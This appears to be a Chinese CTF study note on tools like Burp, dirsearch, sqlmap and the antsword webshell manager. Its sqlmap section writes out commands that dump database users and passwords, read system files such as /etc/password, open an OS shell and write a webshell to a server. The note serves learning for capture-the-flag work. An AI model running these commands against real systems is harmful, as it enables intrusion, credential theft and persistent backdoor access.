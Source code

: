 ```yaml
---
{"dg-publish":true,"permalink":"/c5/ctf/ctf/ctf/","dgPassFrontmatter":true}
---
```


#CTF-工具
https://websec.readthedocs.io/zh/latest/intranet/index.html

**BP**:抓包工具，啥都能用
**Dirsearch**:用 Python 编写的开源的目录和文件扫描工具，常用于网站的信息收集阶段，通过对目标网站进行目录和文件的枚举，帮助发现网站上可能存在的敏感目录或文件[[0-Dirsearch使用教程\|0-Dirsearch使用教程]]


# SQLMAP使用
#CTF-工具 
## 参数介绍和示例

`-r`：万能参数，主要针对post注入，但是任何其他请求方法都是可以的，但这个参数用的最多
```
sqlmap.py -r c:\2.txt
```
`-u`：只针对get请求方法的注入
```
sqlmap.py -u http://192.168.0.15/sql.php?id=1
```
`--level=LEVEL`:执行测试的等级（1-5,默认为1），使用`-level`参数且数值>=2时候会检查cookie里面的参数，当>=3的时候将检查`user-agent`和`Referer`
```
sqlmap.py -r c:\2.txt --level 3
```
`--risk=RISK`:执行测试的风险（0-3，默认为1），默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试
```
sqlmap.py -r c:\2.txt --level 3 --risk 3
```
`v`:显示详细信息的意思，ERBOSE信息级别：0-6（缺省默认1），其值具体含义：“0”只显示Python错误以及严重的信息；“1”同时显示基本信息和警告信息（默认）；“2”同时显示debug信息：“3”同时显示注入的payload；“4”同时显示HTTP请求；“5”同时显示HTTP响应头；“6”同时显示HTTP响应页面；如果想看到sqlmap发送的测试payload最好的等级就是3，设置为5的话，可以看到http响应信息，比较详细
```
sqlmap.py -r c:\2.txt --level 3 --risk 3-v 3
```
`p`:针对某一个参数进行注入，当我们发现注入点的时候，比如网址`http://192.168.203.141/sql.php?id=1`只有一个参数id,而当有些网址有很多参数，那么我们可以针对指定的参数进行注入
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -p id
```
`--threads`：线程数，如果想要sqlmap跑的更快，可以更改这个线程数的值，默认为10
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -p id --threads 20
```
`-batch-smart`:智能判断测试，自行寻找注入点进行测试,能趴到好多数据，如果想结束指令的执行`ctrl+c`，这个智能指令，会将所有数据库全部扒一遍，并且会将每一步的信息和数据全部给我们保存下来，在sqlmap的output文件夹下面
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -batch-smart
```
## 注入获取数据的相关参数
```
--dbs:会获取所有的数据库。默认情况下sqlmap会自动的探测web应用后端的数据库类型：MySQL、Orcacle,PostgreSQL,MicrosoftSQL,Server,Microsoft Access,SQLite,Firebird,Sybase,SAPMaxDB,DB2
--current-user:大多数数据库中可检测到数据库管理系统当前用户
--current-db:当前连接数据库名
--is-dba:判断当前的用户是否为管理
--users:列出数据库所有所有用户
```
以网址`http://192.168.203.143/sql.php?id=1`来走一般完整注入过程
```
http://192.168.203.143/sql.php?id=1 --dbs #会获取所有的数据库
http://192.168.203.143/sql.php?id=1 --current-user #显示当前用户
http://192.168.203.143/sql.php?id=1 --current-db #当前连接数据库名
http://192.168.203.143/sql.php?id=1 --is-dba #判断当前的用户是否为管理
http://192.168.203.143/sql.php?id=1 --users #列出数据库所有所有用户
```
然后按照下面的几个参数来获取细节数据。
**`-tables`获取表名**：-D是指定某个数据库，如果不加-D参数，那么会将所有数据库的所有表获取出来，最好指定数据库名，这样精准快速一些
```
--tables -D 数据库名
```
**`--columns`获取字段名**：
```
--cloumns -T user -D abc
```
**获取数据**
```
-T user -C username,password,email --dump
```
**读文件内容**
```
--file-read /etc/password
如果我们想要读取目标主机的c:\\2.txt文件的数据
sqlmap.py -u http://192.168.203.141/sql.php?id=1 --file-read c:\\2.txt
```
**系统交互的shell**:`--os-shell`
```
sqlmap.py -u http://192.168.203.141/sqlserver/1.aspx?xxser=1 --os-shell
```
**写webshell** :`--file-wirte`
```
指令
--file-write "c:/2.txt" --file-dest "C:/php/htdocs/sql.php" -v 1

--file-write "c:/2.txt" --file-dest"C:\phpStudy\PHPTutoria\www\xx.php" -v 1
```



# antsword蚁剑使用教程
#CTF-RCE #CTF-命令执行 

[贴一篇使用博客](https://blog.csdn.net/qq_53079406/article/details/123302775)
## 一、antsword的webshell使用

第一步：在首页空白处右键-----添加数据（shell)
![Pasted image 20250405095548.png|450](/img/user/PNG/Pasted%20image%2020250405095548.png)
第二步：输入要挂马的地址和连接密码，添加保存（选个加密方法）
![Pasted image 20250405100610.png|450](/img/user/PNG/Pasted%20image%2020250405100610.png)

# dirsearch 目录扫描使用教程
#CTF-信息收集 
常用命令
```
python3 dirsearch.py -u url地址
```

# nmap使用

# GIT的使用
[大佬的文章，写的非常全面](https://blog.csdn.net/mukes/article/details/115693833)
